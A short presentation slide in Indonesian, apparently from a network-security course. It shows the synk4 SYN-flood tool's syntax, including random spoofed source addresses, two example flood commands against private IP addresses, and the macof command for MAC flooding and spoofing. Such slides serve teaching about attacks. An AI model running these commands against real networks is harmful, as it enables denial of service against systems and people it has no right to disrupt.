

# SYN Flooding
SYN flood dengan synk4
synk4 srcaddr destaddr startport endport
srcaddress = 0 untuk random

unix# synk4 192.168.1.101 192.168.1.7 1 139
unix# synk4 0 192.168.1.7 1 140
MAC address flooding & spoofing
unix# macof